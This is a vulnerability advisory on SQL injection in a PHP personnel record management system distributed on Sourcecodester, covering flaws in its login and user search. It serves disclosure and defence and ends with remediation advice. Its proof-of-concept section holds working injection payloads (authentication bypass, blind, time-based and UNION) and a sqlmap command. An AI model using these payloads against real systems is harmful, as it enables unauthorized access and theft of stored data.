




**Vulnerability Title: Personnel Record Management System SQL Injection Vulnerability** 

------

### I. Basic Vulnerability Information 

- **Open Source Project Link:** [sourcecodester.com/php/5107/record-management-system.html](https://www.sourcecodester.com/php/5107/record-management-system.html)

- **Context:** Sourcecodester is a well-known open-source code and application sharing platform. The affected system, "Personnel Record Management System," has accumulated over 29,000 downloads on this platform. 

- **Vulnerability Type:** SQL Injection (SQLi) 

- **Affected Components:** Login module (`index.php`), User Management module (`add_user.php`, `search_user.php`). 

  

------

### II. Vulnerability Description 

The system fails to sanitize or filter user input during authentication, data querying, and data entry processes, resulting in multiple SQL injection vulnerabilities. Attackers can exploit these flaws to bypass authentication, take over arbitrary accounts, steal plaintext passwords, and gain unauthorized access to the administrator dashboard. Once inside, they can view and modify any stored information, leading to severe sensitive data disclosure and system compromise. 

------

1. ### **III. Code Audit**

   **Root Cause 1: Global SQL Injection & Authentication Bypass**

   - **Vulnerable File:** `index.php` (Lines 38-47)

     

   - **Code Audit / Analysis:** The authentication query `select * from user where UserName='$UserName' and Password='$Password'` uses direct, naked string concatenation. Because the system does not sanitize the `$UserName` and `$Password` parameters fetched from the `$_POST` array, an attacker can prematurely terminate the string and inject arbitrary SQL logic, bypassing the authentication mechanism entirely to grant direct access to the administrator backend.

   **Root Cause 2: Fuzzy Search SQL Injection**

   - **Vulnerable File:** `search_user.php` (Lines 142-147)

     

   - **Code Audit / Analysis:** The application is vulnerable to injection through its search functionality. User input from the `search` POST parameter is directly embedded into the SQL `LIKE` clause (`... where FirstName like '%$search%' or ...`) without any prior sanitization. This allows attackers to perform boolean-based, time-based, and UNION-based SQL injections.

   ### **IV. Proof of Concept (PoC)**

   #### **1. Global SQL Injection & Authentication Bypass**

   - **Exploit Payloads:**
     - **Parameter:** `UserName` (POST)
     - **Type:** boolean-based blind
     - **Title:** MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
     - **Payload:** `UserName=123' RLIKE (SELECT (CASE WHEN (1470=1470) THEN 123 ELSE 0x28 END))-- GrAC&Password='OR'1'='1&Login=`
     - **Type:** time-based blind
     - **Title:** MySQL >= 5.0.12 AND time-based blind (query SLEEP)
     - **Payload:** `UserName=123' AND (SELECT 4771 FROM (SELECT(SLEEP(5)))xbDf)-- OLwG&Password='OR'1'='1&Login=`
   - **Result:** The attacker successfully bypasses the login mechanism and enters the Admin interface. 

   #### **2. Fuzzy Search SQL Injection**

   - **Exploit Payloads:**
     - **Parameter:** `search` (POST)
     - **Type:** boolean-based blind
     - **Title:** OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
     - **Payload:** `search=-5641' OR 7541=7541#`
     - **Type:** time-based blind
     - **Title:** MySQL >= 5.0.12 AND time-based blind (query SLEEP)
     - **Payload:** `search=test' AND (SELECT 8891 FROM (SELECT(SLEEP(5)))FApJ)-- VoZp`
     - **Type:** UNION query
     - **Title:** MySQL UNION query (NULL) - 45 columns
     - **Payload:** `search=test' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767171,0x61436d49544e466e6d614d7a6855466576676e546562555550585453455555597452416b6a784757,0x717a787a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#`
   - **SQLmap Command for Verification:** `sqlmap -r search_req.txt -p search --dbs --batch`

   

   ### **V. Remediation / Solutions**

   1. **Patch Management:** Closely monitor the official channels or relevant security communities for this open-source project. Immediately deploy security patches or update to a newer version in the production environment once released by the developers.
   2. **Use Prepared Statements:** Completely deprecate the use of direct user input concatenation in SQL queries. Replace it uniformly with prepared statements and parameterized queries using PDO or MySQLi. This ensures strict separation between code logic and user data, fundamentally mitigating SQL injection risks.
   3. **Strict Input Validation:** Strictly adhere to the "Never trust external input" security principle. Implement rigorous type validation and filtering for all data exchanged between the frontend and backend.
   4. **Principle of Least Privilege:** Enforce minimum database permissions. Assign the system a dedicated database account equipped only with the read/write privileges strictly necessary for current business operations. Never use highly privileged accounts (e.g., `root`) to connect to the database, thereby limiting the potential blast radius of any vulnerability.
   5. **Environment Configuration & Monitoring:** Forcefully disable PHP error echoing (`display_errors = Off`) in production environments to prevent the leakage of sensitive system information. Additionally, consider deploying a Web Application Firewall (WAF) to intercept common injection attacks, and conduct periodic secure code audits.